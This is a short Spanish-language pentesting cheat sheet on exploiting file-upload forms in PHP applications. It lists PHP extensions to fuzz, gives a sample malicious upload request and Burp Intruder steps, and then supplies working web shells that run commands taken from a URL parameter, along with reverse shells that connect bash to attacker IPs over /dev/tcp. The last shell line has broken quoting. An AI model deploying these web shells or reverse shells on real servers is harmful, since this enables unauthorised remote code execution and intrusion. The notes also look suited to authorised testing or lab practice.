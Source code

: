 

### EXTENSIONES QUE INTERPRETAN PHP
```url
https://book.hacktricks.xyz/pentesting-web/file-upload#file-upload-general-methodology
```

```R
❯ echo '.php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module' | tr ',' '\n' | sed 's/\.//g' | sed 's/ //g' > extensionsPHP
```


# IDENTIFICAR CUAL EXTENSION ES VALIDA
#### REQ VICTIMA
```bash
------WebKitFormBoundarytG1Uhhned3dACEkw
Content-Disposition: form-data; name="image"; filename="cmd.php"
Content-Type: application/x-php
<?php
  echo 'Probando';
?>
------WebKitFormBoundarytG1Uhhned3dACEkw--
```

#### BURP INTRUDER
1. Send to intruder >> Set the \$$ in .php
2. Payload >> Load file PHP EXTENSIONS
3. Check the response lenghs


### FUNCIONES DE EJECUCIÓN DE COMANDOS EN PHP
```url
https://gist.github.com/mccabe615/b0907514d34b2de088c4996933ea1720
```

### EJEMPLOS DE REVERSE SHELL CON FUNCIONES
```PHP
# EXEC
<?php echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";?>

#POPEN
<?php echo fread(popen($_GET['cmd'], "r"), 10000);?>

#proc_open
<?php
	$descriptorspec = array(
	   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
	   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
	   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
	);
	$shell = "/bin/bash -c '/bin/bash >& /dev/tcp/10.10.16.7/443 0>&1'";
	$process = proc_open($shell, $descriptorspec, $pipes);
?>
```

<?php shell_exec("bash -c "bash -i >& /dev/tcp/192.168.45.227/443 0>&1"");?>
### PHP INFO
```PHP
<?php phpinfo() ?>
```



